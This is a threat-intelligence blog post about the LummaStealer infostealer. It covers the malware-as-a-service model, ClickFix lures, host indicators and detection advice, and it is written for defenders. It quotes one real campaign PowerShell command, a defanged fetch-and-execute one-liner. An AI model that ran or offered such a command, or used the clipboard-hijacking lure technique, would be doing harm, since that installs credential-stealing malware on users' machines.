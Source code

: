 ```yaml
---
layout: post
title:  "LummaStealer - Notorious russian infostealer"
date:   2025-06-16 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

LummaStealer C++ prominent in-memory infostealer. Malware-as-a-service operation developed by "Shamel".

Lumma has been prominent since 2022 when it first appeared for sale. Up until May 2025 it has been smooth sailing. In May Microsoft blocked 2,300 domains related to Lumma's infra. Furthermore the DOJ seized Lumma's control panel. Microsoft identified that over 390,000 Windows host we're compromised at the time of the blocking. 

Perhaps Lumma's best feature. Is the ability for anyone and everyone to purchase logs that are stolen. So you buy Lumma and you have a direct place to steal the stolen logs. All you have to do is get it on a host in the first place.

(INSERT SCREENSHOT)

### LummaStealer Recent Campaigns
Clickfix is the new phishing. Recent Lumma campaigns have compromised websites and injected malicious code that instructs users to run commands on there host.

An example of a clickfix command used in an actual Lumma campaign is the following
```iwr ct-humancheck[.]info|iex```
Breakdown of flags
- iwr (Invoke Web Request)
- iex (Invoke Expression). Means run code from the prior argument (domain)

Now this paired with a clickfix lure like this

![Copy Clipboard](/images/lumma_clickfix.PNG)

Would be pretty darn tempting. Especially if you we're perhaps paying for something/booking a table/accessing a website. You are just verifying you are human. Right?

The snazzy part about clickfix attacks is that the malicious .js embedded in the website can silently copy commands to your hosts clipboard.

- Function copyToClipboard copies specified command to hosts clipboard
- EventListener triggers copyToClipboard function when user clicks on the page

![Copy Clipboard](/images/clickfix_example.PNG)

### LummaStealer IOCs (22nd July 2025)
As LummaStealer is malware-as-a-service each group/individual that purchases Lumma will have there own ways for distributing the software. However, despite this there are some clear initial access TTPs that are consistent with Lumma. Furthermore, Lumma's behaviour when executed is also quite consistent. Although files created may be randomly generated with different hashes and IOCs are unscanned. The processes it chooses to inject in and the directories that it creates files are the same.

Additionally. What makes Lumma and other MaaS operations so expensive is that they guarantee that hash is unrecognisable. Therefore, IOCs are unique to the campaign and quite often the machine. Infrastructure is also provided by Lumma. There are dedicated Lumma C2 servers that people who purchase the malware use to communicate with hosts. These are regularly changing and are managed by Lumma. Because of this, maintaining an updated list of Lumma C2 IOCs is vitally important. Furthermore, creating YARA rules that detect this is even better.

Lastly I'll add that going back and tracking old malware analysis samples and reports for Lumma I observed that the behaviour of the malware changes a lot. Calls different dlls, Windows APIs and uses different compilers. So whilst this might be relevant now, in a day it may not be.

Off track but a person at Mandiant told me they have observed APTs regularly querying VirusTotal to check whether a hash been scanned. As it's often the first step to an investigation, it's a great way to determine whether you've been detected in an environment.

Although Network IOCs are unique to each campaign, I'll still add them in. I'm not certain, but I'm highly confident Lumma would shuffle these regularly.

Host-based IOCs
- Tasklist
- Findstr
- Process injection (Particularly svchost.exe and explorer.exe)
- Masquerading as PowerShell
- Cvtres.exe creating malicious .tmps from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe creating malicious .dlls from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe executing suspicious .cmdline files from the Temp directory (AppData\Local\Temp)
- Startup folder persistence (AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\App.url)

Here's a list of Lumma Network IOCs from May 2025 provided by Bitsight.
(Bitsight Lumma Stealer Network IOCs)[https://raw.githubusercontent.com/bitsight-research/threat_research/refs/heads/main/lumma/lumma_iocs.csv]

### Data Exfilitration and C2 Channels
Telegram channels.

### How to detect Lumma?
Search for initial access TTPs.
- Clipboard events in EDR logs. Modern EDRs will record these events and often the process that copied to clipboard. 
- Git repos that users have pulled. Process creation events as a result of the command ```git pull``` and ```git clone```. Sort by repo. Biggest to smallest.

But having said all that. Here is some basic techniques to apply to an enterprise network to help detect/prevent Lumma. And all decent malware to be honest.
- SIEM alert for newly registered domains
- SIEM alert for process injection
- SIEM alert for abnormal processes reaching out to external domains
- SIEM alert for abnormal startup processes/reg keys
- Disable powershell for non-administrative users
- Do not whitelist password manager browser extensions
- Disable auto-saving passwords in browser
- Disable downloading exectuables from untrusted websites
- Application whitelisting
- Deploy EDR tools with behavioural analysis capabilities
- Educate users on clickfix attacks and malvertising
- Deploy BDR solution (SquareX)